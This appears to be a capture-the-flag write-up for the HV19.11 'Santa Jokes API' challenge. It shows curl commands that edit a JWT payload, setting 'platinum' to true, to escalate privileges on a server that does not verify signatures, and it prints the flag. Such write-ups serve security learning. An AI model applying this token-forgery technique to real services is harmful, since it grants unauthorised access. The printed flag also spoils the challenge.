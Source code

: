 # HV19.11 Frolicsome Santa Jokes API

_The elves created an API where you get random jokes about santa._

_Go and try it here: http://whale.hacking-lab.com:10101_

---

API docs: [FSJA-API-Description.html](FSJA-API-Description.html)

This was an easy one for me. I'm familiar with [JWT tokens](https://en.wikipedia.org/wiki/JSON_Web_Token)
and I know they can be easily manipulated if not encrypted.

1) Register a new user
    ```
    $ curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/register --data '{"username":"vernjan", "password": "helloworld"}'
    {"message":"User created","code":201} 
    ```

2) Log in and obtain JWT token
    ```
    $ curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/login --data '{"username":"vernjan", "password": "helloworld"}'
    {"message":"Token generated","code":201,"token":"eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoidmVybmphbiIsInBsYXRpbnVtIjpmYWxzZX0sImV4cCI6MTU3NjAyMzc0NS42NTcwMDAwMDB9.17DcbmK5Gushb5Pa2dBTqwbTWecDN6i5NBubfdSCOZ0"}
    ```

3) Decode JWT token online using https://jwt.io/
    ```
    {
      "user": {
        "username": "vernjan",
        "platinum": false
      },
      "exp": 1576023745.657
    }
    ```
   Ok, what's `platinum`.. Let's try to change it to `true`
   
   ![](jwt-io.png)
   
4) Copy encoded token and use it for getting a joke
    ```
    $ curl -X GET "http://whale.hacking-lab.com:10101/fsja/random?token=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoidmVybmphbiIsInBsYXRpbnVtIjp0cnVlfSwiZXhwIjoxNTc2MDIzNzQ1LjY1N30.Iu4cpEbDe0C534uM5jf4a8VJatMhYE_LpZbD3yqMsIE"
    {"joke":"Congratulation! Sometimes bugs are rather stupid. But that's how it happens, sometimes. Doing all the crypto stuff right and forgetting the trivial stuff like input validation, Hohoho! Here's your flag: HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}","author":"Santa","platinum":true}
    ```
   
The flag is `HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}`